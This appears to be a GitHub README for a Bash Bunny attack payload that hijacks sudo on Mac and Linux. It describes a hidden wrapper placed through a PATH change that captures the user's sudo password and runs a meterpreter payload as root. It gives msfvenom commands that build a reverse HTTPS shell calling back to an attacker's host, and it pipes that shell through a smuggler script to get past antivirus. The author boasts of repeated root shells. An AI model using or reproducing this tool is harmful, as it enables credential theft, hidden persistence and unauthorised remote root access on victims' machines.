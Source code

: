 # Bushing's Blue Turtle: The sudo subverter

* Author: Michael Weinstein (@bionomicon)
* Version: 0.1
* Target: Mac/Linux

Mad credit to oXis for their attack approach.  Much of the code here was developed using SudoBackdoor as a reference.

Current dev status: I have tested this on a linux box and been able to pwn it repeatedly.  Everytime getting a root reverse shell.

## Description

Injector: Creates a folder called ~/.config/sudo where it puts a python wrapper for sudo and a meterpreter payload.  Next, it copies over the python sudo wrapper and meterpreter payload.  It then runs the initialization function in the wrapper script to set some environmental values like the actual path for sudo and the path for python.  The initialization function also initializes a file for saving sudo creds and slightly alters the meterpreter payload so it will fail silently if there is a bad network connection or other exception.  Finally, it will set a new value in the user's PATH so that they will be running this wrapper instead of actually doing sudo.  The main abnormality a user should see is a slight delay in being asked to enter their password.  After this wrapper runs the desired sudo command, it will use the captured password (although probably not absolutely necessary at this stage) to have sudo run the meterpreter payload.  That should open up a meterpreter session on the listening computer with root on the target. True pwnage. Every time they sudo something.
Cleaner: I will probably make a cleaner for this thing eventually for completeness sake... but really, why make a cleaner when this thing should give you multiple remote root shells?   

## Configuration

Inside the injector and the cleaner you can specify mac=true to switch the playload to macos mode.  This payload has been tested on mac and linux.  Works on both mac and linux.  Mac was running sophos antivirus during the test and it blocked download of the reverse tcp shell.  This can be fixed with the use of my shell smuggler (see below for details).

##Crafting a meterpreter shell payload

Payloads should be crafted in msfvenom.  The meterpreter shell will be the python reverse https meterpreter payload.  The payload should be stored in the folder with the rest of the files for this bash bunny payload in a file called shell.py (stored on the target system as .sudo in the directory we created).  The command for generating an appropriate meterpreter shell payload is below:
```msfvenom -p python/meterpreter/reverse_https LHOST=<IP ADDRESS> LPORT=<PORT> -f raw > payload.py```

Note that *antivirus appears to pick up this reverse tcp payload* really well. Annoying. shellSmuggler.py to the rescue!  The best way to run this is to cd into the bashbunny itself and then into the payloads switch folder you are running from and run the following command (plugging in your IP address and port):
```msfvenom -p python/meterpreter/reverse_https LHOST=<IP ADDRESS> LPORT=<PORT> -f raw | python ShellSmuggler.py > shell.py```

## STATUS  (Note that I used the same configuration as SudoBackdoor, but I am seeing different LED behaviors.  Will investigate this soon.)
Injector 

| LED              | Status               |
| ---------------- | -------------------- |
| White            |  Ready               |
| Amber blinking   |  Waiting for server  |
| Blue blinking    |  Attacking           |
| Green            |  Finished            |
    
Cleaner (when it is made)

| LED              | Status               |
| ---------------- | -------------------- |
| White            |  Ready               |
| Blue blinking    |  Attacking           |
| Green            |  Finished            |
